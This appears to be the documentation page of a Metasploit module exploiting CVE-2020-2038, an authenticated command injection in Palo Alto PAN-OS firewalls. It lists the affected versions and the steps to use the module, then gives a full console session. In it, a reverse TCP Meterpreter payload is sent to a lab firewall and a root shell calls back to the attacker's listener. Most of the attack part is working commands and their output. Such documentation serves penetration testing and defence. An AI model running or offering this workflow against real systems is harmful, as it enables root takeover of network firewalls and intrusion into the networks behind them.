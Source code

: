 ## Vulnerable Application

This module exploits CVE-2020-2038, an authenticated OS Command Injection vulnerability in PAN-OS versions < 10.0.1,
< 9.1.4 and <9.0.10 that allows authenticated administrators to execute arbitrary OS commands with root privileges. The
Rest API allows authenticated users to send operational mode commands via the "op" request. Insufficient filtering of
user inputs in the "op" request allows an attacker to inject commands.

A Palo Alto Firewall demo VM can be requested at the following
[link](https://www.paloaltonetworks.com/company/request-demo). PAN‑OS is the software that runs all Palo Alto Networks
next-generation firewalls. PAN-OS will be running on the VM by default. The only setup necessary should be setting the
administrator password.

## Verification Steps

1. Start msfconsole
1. Do: `use exploit/linux/http/panos_op_cmd_exec`
1. Set the `RHOST`, `USERNAME`, and `PASSWORD` options
1. Run the module
1. Receive a Meterpreter session as the `root` user.

## Scenarios
### PAN-OS 10.0.0
```
msf6 > use linux/http/panos_op_cmd_exec
[*] Using configured payload linux/x64/meterpreter/reverse_tcp
msf6 exploit(linux/http/panos_op_cmd_exec) > set rhosts 192.168.2.196
rhosts => 192.168.2.196
msf6 exploit(linux/http/panos_op_cmd_exec) > set USERNAME admin
USERNAME => admin
msf6 exploit(linux/http/panos_op_cmd_exec) > set PASSWORD N0tpassword!
PASSWORD => N0tpassword!
msf6 exploit(linux/http/panos_op_cmd_exec) > run

[*] Started reverse TCP handler on 192.168.2.114:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Authenticating...
[+] Successfully obtained api key
[+] The target is vulnerable.
[*] Exploiting...
[*] Sending stage (989032 bytes) to 192.168.2.196
[*] Meterpreter session 1 opened (192.168.2.114:4444 -> 192.168.2.196:52592) at 2022-08-17 16:13:19 -0400
[*] Command Stager progress - 100.00% done (1111/1111 bytes)

meterpreter > getuid
Server username: root
meterpreter > sysinfo
Computer     : PA-VM-10-0-0.home
OS           : Red Hat  (Linux 3.10.0-957.21.3.10.pan.x86_64)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter >
```
